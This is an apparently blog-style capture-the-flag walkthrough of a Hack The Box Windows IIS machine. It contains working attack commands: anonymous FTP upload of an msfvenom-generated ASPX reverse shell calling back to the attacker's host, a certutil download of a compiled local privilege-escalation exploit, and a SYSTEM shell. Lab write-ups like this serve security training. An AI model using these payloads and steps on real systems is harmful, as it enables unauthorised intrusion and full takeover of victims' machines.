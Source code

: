 First enumeration with nmap 

`nmap -sC -sV -T4 -oN normal.txt -p 21,80 -Pn 10.10.10.5`

```
# Nmap 7.93 scan initiated Mon May 15 23:12:02 2023 as: nmap -sC -sV -T4 -oN normal.txt -p 21,80 -Pn 10.10.10.5
Nmap scan report for 10.10.10.5
Host is up (0.14s latency).

PORT   STATE SERVICE VERSION
21/tcp open  ftp     Microsoft ftpd
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| 03-18-17  02:06AM       <DIR>          aspnet_client
| 03-17-17  05:37PM                  689 iisstart.htm
|_03-17-17  05:37PM               184946 welcome.png
| ftp-syst: 
|_  SYST: Windows_NT
80/tcp open  http    Microsoft IIS httpd 7.5
|_http-server-header: Microsoft-IIS/7.5
|_http-title: IIS7
| http-methods: 
|_  Potentially risky methods: TRACE
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Mon May 15 23:12:18 2023 -- 1 IP address (1 host up) scanned in 15.62 seconds
```
now we know what port and service running, let's enumerate port 21 first.

```
┌──(n16hth4wk👽n16hth4wk-sec)-[~/Documents/HTB/devel]
└─$ ftp 10.10.10.5
Connected to 10.10.10.5.
220 Microsoft FTP Service
Name (10.10.10.5:n16hth4wk): anonymous
331 Anonymous access allowed, send identity (e-mail name) as password.
Password: 
230 User logged in.
Remote system type is Windows_NT.
ftp> ls
229 Entering Extended Passive Mode (|||49157|)
125 Data connection already open; Transfer starting.
03-18-17  02:06AM       <DIR>          aspnet_client
03-17-17  05:37PM                  689 iisstart.htm
03-17-17  05:37PM               184946 welcome.png
226 Transfer complete.
ftp> put normal.txt 
local: normal.txt remote: normal.txt
229 Entering Extended Passive Mode (|||49158|)
125 Data connection already open; Transfer starting.
100% |**************************************************************************************************************************|   914        5.58 MiB/s    --:-- ETA
226 Transfer complete.
914 bytes sent in 00:00 (5.30 KiB/s)
ftp> 
```
we have anonymous login enabled and there's a file upload availble. uploaded `normal.txt` file to see if we can access it through the web.

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/368fdb53-d444-4662-9145-adf560e15266)

cool we can access these files through the browser, let's craft a reverse shell payload.

```
┌──(n16hth4wk👽n16hth4wk-sec)-[~/Documents/HTB/devel]
└─$ msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.14 LPORT=443 EXITFUNC=thread -f aspx -a x86 --platform windows -o shell.aspx   
No encoder specified, outputting raw payload
Payload size: 324 bytes
Final size of aspx file: 2739 bytes
Saved as: shell.aspx
```
now we generated a payload using msfvenom, let's upload it through ftp

```
ftp> put shell.aspx 
local: shell.aspx remote: shell.aspx
229 Entering Extended Passive Mode (|||49158|)
125 Data connection already open; Transfer starting.
100% |**************************************************************************************************************************|  2777       11.66 MiB/s    --:-- ETA
226 Transfer complete.
2777 bytes sent in 00:00 (16.88 KiB/s)
ftp> ls
229 Entering Extended Passive Mode (|||49159|)
125 Data connection already open; Transfer starting.
03-18-17  02:06AM       <DIR>          aspnet_client
03-17-17  05:37PM                  689 iisstart.htm
05-16-23  06:53AM                  914 normal.txt
05-16-23  07:02AM                 2777 shell.aspx
03-17-17  05:37PM               184946 welcome.png
226 Transfer complete.
ftp> 
```
logged back in ftp and uploaded the `shell.aspx` payload. 

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/1c7cb0f7-322e-4d37-8fea-f314117b3813)

fire up ncat listener.

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/f435d921-f5e9-4c99-bc7a-8d7180568f33)

trigger the shell through the web and check back ncat listener.

```
┌──(n16hth4wk👽n16hth4wk-sec)-[~/Documents/HTB/devel]
└─$ ncat -lnvp 443
Ncat: Version 7.93 ( https://nmap.org/ncat )
Ncat: Listening on :::443
Ncat: Listening on 0.0.0.0:443
Ncat: Connection from 10.10.10.5.
Ncat: Connection from 10.10.10.5:49160.
Microsoft Windows [Version 6.1.7600]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

c:\windows\system32\inetsrv>whoami
whoami
iis apppool\web

c:\windows\system32\inetsrv>
```
Boom, got reverse shell as `iis apppool\web`.


## Privilege Escalaction

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/3be0ca06-8aef-40d1-8ea8-f6d6f4e3a5c5)

checking systeminfo, we can see the os version `6.1.7600 N/A Build 7600` let's check for exploit for it.

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/84099caa-df46-4270-9954-af73f805e90d)

now we downloaded the script, what we need to do is compile it.

```
sudo apt-get install mingw-w64
```
first we need to install mingw-w64

```
┌──(n16hth4wk👽n16hth4wk-sec)-[~/Documents/HTB/devel]
└─$ i686-w64-mingw32-gcc 40564.c -o exploit.exe -lws2_32
                                                                                                                                                                       
┌──(n16hth4wk👽n16hth4wk-sec)-[~/Documents/HTB/devel]
└─$ ls -al exploit.exe     
-rwxr-xr-x 1 n16hth4wk n16hth4wk 240005 May 16 05:35 exploit.exe
```
then compile the script. let's send it to the target.

```
┌──(n16hth4wk👽n16hth4wk-sec)-[~/Documents/HTB/devel]
└─$ sudo python -m http.server 80 
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```
first start a python http server

```
c:\windows\system32\inetsrv>cd C:\windows\temp  
cd C:\windows\temp                                                                 
                                                                                   
C:\Windows\Temp>certutil -urlcache -f http://10.10.14.14/exploit.exe exploit.exe
certutil -urlcache -f http://10.10.14.14/exploit.exe exploit.exe
****  Online  ****                                                                 
CertUtil: -URLCache command completed successfully.
                                                                                   
C:\Windows\Temp>dir                                                                
dir                                                                                
 Volume in drive C has no label.                                                   
 Volume Serial Number is 137F-3971                                                 
                                                                                   
 Directory of C:\Windows\Temp                                                      
                                                                                   
16/05/2023  07:39     <DIR>          .
16/05/2023  07:39     <DIR>          ..
17/03/2017  02:10                  0 DMI20C8.tmp
28/12/2017  02:44                  0 DMI4069.tmp
16/05/2023  07:39            240.005 exploit.exe
13/12/2020  01:22                140 fwtsqmfile00.sqm
13/12/2020  01:59                140 fwtsqmfile01.sqm
14/12/2020  03:36              4.822 MpCmdRun.log
17/03/2017  05:32              5.194 MpSigStub.log
18/03/2017  02:04     <DIR>          rad11098.tmp
18/03/2017  02:06     <DIR>          rad18A66.tmp
***
11/02/2022  05:30             45.752 vmware-vmusr.log
16/05/2023  06:44              1.880 vmware-vmvss.log
              20 File(s)     25.921.054 bytes
              14 Dir(s)   4.697.944.064 bytes free

C:\Windows\Temp>

```
download the exploit to the target. 

```
C:\Windows\Temp>whoami
whoami
iis apppool\web

C:\Windows\Temp>exploit.exe
exploit.exe

c:\Windows\System32>whoami
whoami
nt authority\system

c:\Windows\System32>
```
ran the exploit and boom we got `nt authority\system` 

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/06998ca7-0312-4705-a758-cc1ca4f687f4)

and we are through

